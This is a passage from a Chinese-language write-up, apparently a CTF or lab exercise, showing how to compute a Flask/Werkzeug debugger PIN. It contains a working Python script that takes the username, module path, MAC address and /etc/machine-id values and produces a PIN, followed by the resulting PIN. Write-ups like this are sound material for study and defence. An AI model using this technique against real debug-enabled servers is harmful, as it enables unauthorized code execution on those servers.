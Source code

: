 这样直接用户名和app.py的绝对路径都能获得到了

然后利用几个值，就可以推算出pin码

```python
import hashlib
from itertools import chain
probably_public_bits = [
	'kingkk',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/home/kingkk/.local/lib/python3.5/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'52242498922',# str(uuid.getnode()),  /sys/class/net/ens33/address
	'19949f18ce36422da1402b3e3fe53008'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print(rv)
```

算出来pin码为

```
169-851-075
```
